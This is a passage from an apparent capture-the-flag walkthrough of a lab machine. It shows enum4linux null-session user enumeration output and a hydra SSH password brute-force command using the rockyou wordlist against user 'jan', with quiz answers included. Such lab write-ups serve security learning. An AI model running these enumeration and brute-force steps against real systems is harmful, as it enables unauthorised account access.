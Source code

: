 ```
[+] Getting domain groups:

[+] Getting domain group memberships:

 ========================================================================
|    Users on 10.10.103.107 via RID cycling (RIDS: 500-550,1000-1050)    |
 ========================================================================
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-2853212168-2008227510-3551253869
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-5-21-2853212168-2008227510-3551253869 and logon username '', password ''
S-1-5-21-2853212168-2008227510-3551253869-500 *unknown*\*unknown* (8)
S-1-5-21-2853212168-2008227510-3551253869-501 BASIC2\nobody (Local User)
[...]
S-1-5-21-2853212168-2008227510-3551253869-513 BASIC2\None (Domain Group)
[...]
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
[...]
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
[...]
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

 ==============================================
|    Getting printer info for 10.10.103.107    |
 ==============================================
No printers returned.


enum4linux complete on Tue Sep 15 08:40:44 2020
```

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.103.107 ssh
```

5. What is the username?

`jan`

6. What is the password?

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.103.107 ssh
```
